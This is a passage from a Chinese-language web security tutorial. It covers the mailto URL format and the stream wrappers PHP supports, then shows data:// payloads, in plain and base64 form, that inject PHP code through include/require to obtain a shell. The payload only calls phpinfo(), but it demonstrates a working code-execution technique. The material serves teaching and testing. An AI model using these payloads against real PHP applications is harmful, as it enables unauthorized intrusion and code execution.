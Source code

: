 

#### mailto
mailto协议可以用来发送邮件，该协议的利用需要后端配置了邮件的发送服务器和相关的支持才能正常使用，协议格式如下：
```shell
mailto:name1@rapidtables.com?cc=name2@rapidtables.com&bcc=name3@rapidtables.com
&subject=The%20subject%20of%20the%20email &body=The%20body%20of%20the%20email
//抄送：name2@rapidtables.com
//密送：name3@rapidtables.com
//主题：The%20subject%20of%20the%20email
//正文：The%20body%20of%20the%20email
```
### PHP
在PHP中支持的协议：

```text
dict:// — 词典网络协议(curl扩展支持)
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) URL
ftp:// — 访问 FTP(s) URL
php:// — 访问各种 I/O 流
zlib:// ——压缩流
data:// — 数据 (RFC 2397)
glob:// — 查找匹配模式的路径名
phar:// — PHP 存档
ssh2:// — 安全外壳 2
rar:// — RAR
ogg:// — 音频流
expect:// ——流程交互流
gopher:// —— 信息查找系统协议
```

#### DATA 协议
DATA协议配合include(require) Getshell
```http
data://text/plain,<?php%20phpinfo();
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b  (<?php phpinfo();?>,+号使用url编码)
data://image/jpeg,
```
```http
data://text/plain,<?php%20phpinfo();
```
![image.png](./SSRF.assets/2023_05_19_10_39_35_d4sbQ3gG.png)
